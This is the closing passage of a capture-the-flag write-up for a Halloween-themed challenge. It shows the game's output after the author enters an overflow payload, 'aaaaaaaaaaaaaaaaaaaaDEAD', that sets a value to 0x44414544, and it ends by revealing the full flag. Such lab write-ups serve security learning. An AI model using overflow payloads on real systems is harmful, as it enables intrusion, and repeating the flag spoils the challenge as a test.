'Well that was certainly an experience' he says, 'thanks for the help!'
You see him shake his head.. 'though i'm not sure you screwed me back perfectly.. something feels a bit off'
'think you have any medicine to help straighten out my thoughts?'
aaaaaaaaaaaaaaaaaaaaDEAD
Brom's eyes glaze over for a second and he writes down this number: 0x44414544
'WOW! I think that did the trick, it's all coming back to me now'
'here is my piece to this creepy puzzle, though I have no idea what it means..'
pumpkin_pie}
```

We have the last part of the flag : `pumpkin_pie}`.

Done! We have our flag "`flag{the_horseman_just_really_loves_pumpkin_pie}`"